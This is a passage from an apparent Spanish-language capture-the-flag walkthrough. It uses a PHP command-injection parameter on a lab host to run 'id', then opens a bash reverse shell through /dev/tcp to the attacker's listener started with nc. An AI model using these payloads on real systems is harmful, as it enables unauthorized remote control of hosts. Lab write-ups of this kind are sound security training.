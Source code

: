 Vemos que esta vez no hay panel de login asi que vamos a probar si el php esta funcionando

```bash
http://172.17.0.2/index.php?fatality=id
```

![[20250802170435.png]](candy-images/20250802170435.png)

Podemos ver que si que es funcional nos permite ejecutar comandos por lo que vamos a lanzarnos una shell

## Shell

En nuestra maquina atacante nos ponemos en escucha por el puerto que queramos en mi caso el 443

```bash
nc -nlvp 443
```

Y en la Url victima pondremos lo siguiente 

```bash
http://172.17.0.2/index.php?fatality=bash -c "bash -i %26>/dev/tcp/192.168.1.182/443 0>%261"
```

![[20250802170824.png]](candy-images/20250802170824.png)
